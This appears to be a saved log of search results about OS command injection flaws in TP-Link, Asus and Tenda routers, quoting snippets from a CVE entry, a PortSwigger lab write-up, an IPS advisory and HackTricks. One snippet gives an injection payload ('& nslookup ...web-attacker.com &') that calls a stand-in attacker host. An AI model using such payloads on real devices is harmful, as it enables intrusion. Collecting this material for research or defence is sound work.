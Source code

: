 
# DuckDuckgo search -> TP_Link_OS_Command_injection
`2024-08-09`

* https://nvd.nist.gov/vuln/detail/CVE-2020-36178

<blockquote>
oal_ipt_addBridgeIsolationRules on TP-Link TL-WR840N 6_EU_0.9.1_4.16 devices allows OS command injection because a raw string entered from the web interface (an IP address field) is used directly for a call to the system library function (for iptables). NOTE: oal_ipt_addBridgeIsolationRules is not the only function that calls util_execSystem.
</blockquote>

---

# DuckDuckgo search -> Asus_poc_OS_Command_injection
`2024-08-09`

* https://siunam321.github.io/ctf/portswigger-labs/OS-Command-Injection/osci-5/

<blockquote>
With that said, it might be vulnerable to blind OS command injection. We can use an injected command that will trigger an out-of-band network interaction with a system that we control, using OAST techniques. For example: &amp; nslookup kgji2ohoyw.web-attacker.com &amp;. This payload uses the nslookup command to cause a DNS lookup for the specified domain.
</blockquote>

---

# DuckDuckgo search -> Tenda_exploit_zero_click
`2024-08-09`

* https://www.fortiguard.com/encyclopedia/ips/49352

<blockquote>
Description. This indicates an attack attempt to exploit an Remote Command Injection vulnerability in Tenda AC15 AC1900 device. The vulnerability is due to insufficient sanitizing of user supplied inputs in the application. An authenticated remote attacker may be able to exploit this to execute arbitrary commands within the context of the ...
</blockquote>

---

# DuckDuckgo search -> Asus_poc_OS_Command_injection
`2024-08-09`

* https://book.hacktricks.xyz/pentesting-web/command-injection

<blockquote>
A command injection permits the execution of arbitrary operating system commands by an attacker on the server hosting an application. As a result, the application and all its data can be fully compromised. The execution of these commands typically allows the attacker to gain unauthorized access or control over the application's environment and underlying system.
</blockquote>

---